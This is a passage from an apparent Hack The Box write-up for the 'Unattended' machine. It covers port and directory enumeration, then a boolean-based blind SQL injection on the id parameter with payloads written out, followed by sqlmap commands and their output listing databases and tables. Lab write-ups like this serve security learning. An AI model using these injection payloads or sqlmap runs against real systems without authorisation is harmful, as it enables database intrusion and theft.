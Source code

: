 ## Unattended

https://app.hackthebox.com/machines/Unattended

### www-data

80/tcp  open  http     syn-ack nginx 1.10.3  
443/tcp open  ssl/http syn-ack nginx 1.10.3

We enumerate `nestedflanders.htb` and `www.nestedflanders.htb` on nmap output.

Enumerate directories with default threads enumerates `index.php` and `dev`.
```
gobuster dir -k -u https://www.nestedflanders.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

Index.php is different from index.html. There are three links inside, and each leads to a different ID parameter.
```
https://www.nestedflanders.htb/index.php?id=25
```

#### Blind SQLi

Testing adding a `'` like `id=25'` doesn't seem to be vulnerable. But if we try to access other existing page with this like `id=465'`, the response is also the main id 25, so something is happening here.

We can use this to perform query validations. If we enter `id=587' and 1=1-- -`, the content of page 587 is returned. If we enter `id=587' and 1=2-- -`, the content of main page is returned.

We script this to find the DB version on exploit.py.
```
https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='a'--+-
```

#### Using sqlmap
```
# Listing databases
sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch --dbs

[*] information_schema
[*] neddy

# Listing tables inside "neddy" database
sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy --tables

+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```
